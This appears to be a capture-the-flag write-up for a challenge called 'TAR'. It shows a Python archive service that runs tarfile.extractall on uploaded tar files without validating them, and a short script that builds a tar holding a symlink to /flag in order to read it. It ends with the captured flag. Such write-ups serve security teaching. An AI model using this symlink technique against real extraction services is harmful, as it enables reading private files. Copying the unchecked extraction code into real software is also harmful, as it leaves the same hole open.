

# TAR

### 1. Understand the vulnerability in tar.py
Here is the `tar.py` source code:

```python
import tarfile
import base64
import io
import os
import tempfile
import shutil
import sys
import time
import random
import string
import atexit

sys.setrecursionlimit(10000)

USER_FILES_DIR = "/tmp/user_files"

current_extract_info = {
    "files": [],
    "extract_dir": None
}

def generate_random_string(length=8):
    return ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(length))

def extract_archive(base64_data):
    try:
        try:
            decoded_data = base64.b64decode(base64_data)
        except Exception as e:
            return {"error": f"Base64 decoding failed: {str(e)}"}
        
        tar_bytes = io.BytesIO(decoded_data)
        
        if not os.path.exists(USER_FILES_DIR):
            os.makedirs(USER_FILES_DIR)
        
        timestamp = int(time.time())
        random_suffix = generate_random_string()
        extract_dir_name = f"{timestamp}_{random_suffix}"
        extract_dir_path = os.path.join(USER_FILES_DIR, extract_dir_name)
        
        os.makedirs(extract_dir_path)
        
        extracted_files = []
        
        try:
            with tarfile.open(fileobj=tar_bytes, mode='r') as tar:
                tar.extractall(path=extract_dir_path)
                
                for member in tar.getmembers():
                    if member.isdir():
                        continue
                    
                    file_path = os.path.join(extract_dir_path, member.name)
                    
                    extracted_files.append({
                        "name": member.name,
                        "path": file_path
                    })
        except Exception as e:
            shutil.rmtree(extract_dir_path, ignore_errors=True)
            return None
        
        global current_extract_info
        current_extract_info["files"] = extracted_files
        current_extract_info["extract_dir"] = extract_dir_path
        
        return {
            "success": True,
            "message": f"{len(extracted_files)} files have been successfully extracted.",
            "files": extracted_files
        }
        
    except Exception as e:
        return {"error": f"Error occurred during processing: {str(e)}"}

def read_file_content(file_index):
    global current_extract_info
    
    if not current_extract_info["files"]:
        return {"error": "No extracted files. Please upload a tar file first."}
    
    try:
        if file_index < 0 or file_index >= len(current_extract_info["files"]):
            return {"error": f"Invalid file index. Please enter a value between 0 and {len(current_extract_info['files'])-1}."}
        
        file_info = current_extract_info["files"][file_index]
        file_path = file_info["path"]
        
        try:
            with open(file_path, 'r') as f:
                text_content = f.read()
            
            return {
                "success": True,
                "file_name": file_info["name"],
                "content": text_content
            }
        except UnicodeDecodeError:
            return {
                "success": True,
                "file_name": file_info["name"],
                "content": "(Cannot display binary file.)"
            }
        
    except Exception as e:
        return {"error": f"Error occurred during processing: {str(e)}"}

def cleanup_extract_dir():
    global current_extract_info
    
    if current_extract_info["extract_dir"] and os.path.exists(current_extract_info["extract_dir"]):
        try:
            shutil.rmtree(current_extract_info["extract_dir"], ignore_errors=True)
            current_extract_info["extract_dir"] = None
            return {"success": True, "message": "Extraction directory has been cleaned up."}
        except Exception as e:
            return {"error": f"Error occurred during directory cleanup: {str(e)}"}
    
    return {"success": True, "message": "No directory to clean up."}

def cleanup_on_exit():
    global current_extract_info
    
    if current_extract_info["extract_dir"] and os.path.exists(current_extract_info["extract_dir"]):
        try:
            shutil.rmtree(current_extract_info["extract_dir"], ignore_errors=True)
            print(f"[Exit Cleanup] Directory {current_extract_info['extract_dir']} has been deleted.")
        except Exception as e:
            print(f"[Exit Warning] Error occurred during directory cleanup: {str(e)}")

atexit.register(cleanup_on_exit)

def print_banner():
    print("=" * 60)
    print("TarVault - Secure Archive Management")
    print("=" * 60)
    print("Enter your tar archive encoded in base64.")
    print("Our service will safely process your files!")
    print("=" * 60)

def print_file_content(result):
    if "error" in result:
        print(f"\nError: {result['error']}")
        return
    
    print(f"\nFile: {result['file_name']}")
    print("-" * 40)
    print(result['content'])
    print("-" * 40)

def main():
    print_banner()
    
    print("\nEnter your tar archive encoded in base64:")

    # Caution! Your input must be less than 4096 bytes
    base64_data = input()
    if not base64_data:
        print("No data entered.")
        return
    
    result = extract_archive(base64_data)
    if "error" in result:
        print(f"\nError: {result['error']}")
        return
    
    print(f"\n{result['message']}")
    
    try:
        while True:
            print("\nFile List:")
            print("[0] Exit")
            
            for i, file in enumerate(current_extract_info["files"], 1):
                print(f"[{i}] {file['name']}")
            
            try:
                file_choice = int(input("\nEnter the number of the file to read (0 to exit): ").strip())
                
                if file_choice == 0:
                    print("\nExiting service. Thank you!")
                    break
                
                file_index = file_choice - 1
                
                if file_index < 0 or file_index >= len(current_extract_info["files"]):
                    print(f"\nInvalid file number. Please enter a value between 1 and {len(current_extract_info['files'])}.")
                    continue
                
                result = read_file_content(file_index)
                print_file_content(result)
                
            except ValueError:
                print("Please enter a valid number.")
    finally:
        cleanup_result = cleanup_extract_dir()
        if "error" in cleanup_result:
            print(f"\nWarning: {cleanup_result['error']}")

if __name__ == "__main__":
    main()

```

From the source code, it allows upload a base64 encoded tar file and extracts it without checking for symlinks. This give way for creating an exploiting by creating a symlink in a tar file that points to the flag. 

At the source code section:
```python
with tarfile.open(fileobj=tar_bytes, mode='r') as tar: tar.extractall(path=extract_dir_path)
```

The method `tar.extractall` is vulnerable as it did not perform any validation and blindy trust the paths in the tar file.

### 2. Create a tar file and encoded it

```python
import tarfile
import base64
import os

# Create a symbolic link to the flag
os.symlink('/flag', 'flag_link')

# Create a tar file containing the symlink
with tarfile.open('exploit.tar', 'w') as tar:
    tar.add('flag_link')

# Read the tar file and encode it in base64
with open('exploit.tar', 'rb') as f:
    encoded = base64.b64encode(f.read()).decode()

print(encoded)
```

Running this script able to exploit the vulnerabilty to the /flag symlink

### 3. Send the payload to the challenge netcat session



**FLAG:** `FLAG{53f81c237b8466628a65ed9a0999aff8}`

